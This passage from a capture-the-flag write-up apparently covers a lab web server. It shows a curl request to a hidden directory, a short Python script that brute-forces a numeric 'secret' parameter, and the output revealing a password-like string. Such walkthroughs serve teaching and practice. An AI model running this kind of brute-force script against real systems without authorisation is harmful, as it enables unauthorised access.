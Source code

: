 ~~~
$ curl -s http://10.10.109.114/th1s_1s_h1dd3n/?secret=34
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 34</p>

<p>That is wrong! Get outta here!</p>

</div>
</body>
</html>
~~~

OK, let's [script](files/secret.py) it in python:

```python
#!/usr/bin/env python3

import requests

host = '10.10.109.114'
url = 'http://{}/th1s_1s_h1dd3n/?secret={}'

for i in range(100):
	r = requests.get(url.format(host, i))
	if not 'That is wrong!' in r.text:
		print("Found secret: {}".format(i))
		print(r.text)
```

Here is the output of the script:

~~~
$ python secret.py 
Found secret: 73
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>

</div>
</body>
</html>
~~~
